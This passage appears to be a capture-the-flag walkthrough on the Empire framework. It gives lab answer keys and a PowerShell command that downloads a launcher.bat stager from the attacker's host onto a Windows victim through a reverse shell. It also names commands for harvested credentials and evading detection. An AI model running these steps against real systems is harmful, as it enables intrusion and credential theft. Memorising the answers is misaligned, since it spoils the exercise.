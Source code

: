 ```

Answer : ```windows/launcher_bat```

#### 2 — Let’s finish our previous command and select the batch file option. Press enter to finalize this. What is our new path to the ‘module’ we have selected?

Answer : ```stager/windows/launcher_bat```

#### 3 — Since we’ve previously set our listener to use http, we must now set the associated options within our stager we are building to match that. What option must we set in order to accomplish this?

Answer : ```Listener```

#### 4 — Type execute to finish creating our stager. Where is the stager saved?

Answer : ```/tmp/launcher.bat```

After that I simply cp the launcher bat to the webserver we made with the Empire framework.

```
cp /tmp/launcher.bat /var/www/html/launcher.bat.
```

Why i did that? I did that to prepare the ground for the #5 part.

#### 5 — Using any shell you have previously gained into our victim system transport the stager batch file to the system and execute it. This can be done in numerous ways depending on the stager used, be prepared to be flexible with your transportation methods similarly to how you might handle an msfvenom package.

Answer : 
```While i had my reverse shell open inside the target machine i needed to transfer the file { launcher.bat } inside the windows machine. So i did it with the Powershell.```

```
powershell -c “(new-object System.Net.WebClient).DownloadFile(‘http://{your_machine_ip}:
{your_port}/launcher.bat','C:\\Users\\Jon\\Documents\\launcher.bat')"
```

That was a little bit hard to work as i tried a lot of ways until something worked eventually.

Just to be sure that this worked, while you are in the middle of the process, check the terminal you have open and running Empire on your machine to check if you got the request. After that go to this path, inside your windows machine reverse shell, cd /Users/Jon/Documents and do a dir to see what’s inside. If you see the launcher.bat, execute it with just it’s name. Launcher.bat.

---

## Agents and Post-Exploitation

Most of these answers where from help command inside the Empire Framework and almost the other half of this section found from searchmodule command, which is looking for specific modules.

#### 3 — What command do we use to interact with an agent?

Answer : ```interact```

#### 4 — What about if we wanted to list any usernames and passwords we have gathered?

Answer : ```creds```

#### 5 — And if we wanted to ‘deactivate’ an agent for a while to avoid detection?

Answer : ```sleep```
```